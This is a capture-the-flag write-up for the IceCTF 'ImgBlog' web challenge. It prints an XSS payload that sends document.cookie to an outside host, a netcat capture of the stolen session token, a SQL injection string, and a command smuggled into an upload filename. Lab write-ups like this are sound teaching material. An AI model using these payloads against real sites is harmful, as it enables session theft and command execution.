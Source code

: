 ImgBlog (Web - 130 points, 79 solves)
===============================
> I found this amazing [blog about Iceland](http://imgblog.vuln.icec.tf/) Did I ever tell you that I love Iceland? It seems to be made from scratch by a single guy although being impressive, he doesn't seem too have much experience with web programming. Can you see if you can find any vulnerabilites to pwn his machine?


Solution
--------

The website for this challenge looks like a simple blog.  This is the homepage:
![ImgBlog Home, unauthenticated](homepage.png)

There are login and register buttons.  I started off with some standard `admin' or 1=1; -- ` injections for the username and password but with no success.  Oh well, this is one of the higer pointed web challenges so it's probably something more involved than that.  The description text suggests to me that there might be some XSS vulnerabilities - how else would we "pwn his machine".

I tried logging with my favorite credentials, `asdf:asdf`.  Lo and behold, some other hacker has gone through the trouble of registering for me!

Once logged in, we have the ability to comment on the posts.  A ha!  A potential XSS vector!
![ImgBlog Home, logged in.  Comment box](comment.png)

Let's try some simple XSS and see if the page is vulnerable:

    One security please! <script>alert("whoops");</script>

![xss foiled...](xss-foiled.png)

Darn, looks like they're properly escaping the input.  There are two links associated with each comment:
* A report button
* A comment permalink

The report button did not appear to do much at first glance.  The comment permalink proved to be quite interesting however...

![xss confirmed](xss-confirmed.png)

This has to be an intentional bug, so lets see if we can exploit it.  I have a hunch that there's an authenticated account that will visit any comment that has been reported, so lets try to dump the cookies and see what we can get.  To do this I just used a simple document.write to trigger a get request containing the script-accessible cookies.

    <script>document.write('<img src="http://host:8989/asdf/' + document.cookie + '"/>');</script>

On the other end of that snippet is a simple netcat listener waiting for the get request.

    ~ » nc -l 8989
    GET /session=eyJ1c2VyIjoxfQ.CqE6uA.El7XiKvPy9p1BrAuEYE5YGjy0t8 HTTP/1.1
    Referer: http://127.0.0.1:5300/comment/086c1db74162aff4ef376dcf493f8b
    User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
    Accept: */*
    Connection: Keep-Alive
    Accept-Encoding: gzip, deflate
    Accept-Language: en,*

Wahoo!!  We got a session token!  Lets pop that into our cookies and see what we get!

Well, we didn't get a flag, but we do have an upload page that looks like it could be pretty interesting.

![we're in](admin.png)

I tried running basic sql injections on the forms with no success.  The interesting thing appeared to be the image upload tool.  At first glance the verification seems reasonable, if a non-image is supplied it reports an error like this.
![Turns out PHP isn't an image... who knew](php-is-not-an-image.png)

That output format looked vaguely familiar though, so I gave it a quick Google.  Turns out that's the output from the unix `file` utility!  They couldn't be using `file` to determine the type of the upload, could they?!  I loaded up my trusty tamperdata plugin and tried changing the filename to include a command and... success!

![Oh look, it is using file](ls-injection.png)

Through some trial and error I determined that the form stripped the period so I ran `cat flag*` and got the flag.

### Flag:
`IceCTF{why_would_you_use_shell_commands_in_your_web_app_plz_stop}`




